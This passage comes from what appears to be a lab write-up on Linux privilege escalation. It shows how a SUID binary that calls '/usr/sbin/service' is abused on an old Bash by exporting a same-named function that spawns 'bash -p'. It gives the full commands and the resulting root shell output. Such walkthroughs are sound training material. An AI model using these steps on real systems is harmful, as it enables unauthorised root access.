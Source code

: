 Verify this with strings:
```
strings /usr/local/bin/suid-env2
```
output:
```
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
```
In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048:
```
/bin/bash --version
```
output:
```
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```
Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:
```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```
Run the suid-env2 executable to gain a root shell:
```
/usr/local/bin/suid-env2
```
output:
```
user@debian:~$ function /usr/sbin/service { /bin/bash -p; }
user@debian:~$ export -f /usr/sbin/service 
user@debian:~$ /usr/local/bin/suid-env2
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
root@debian:~# 
```
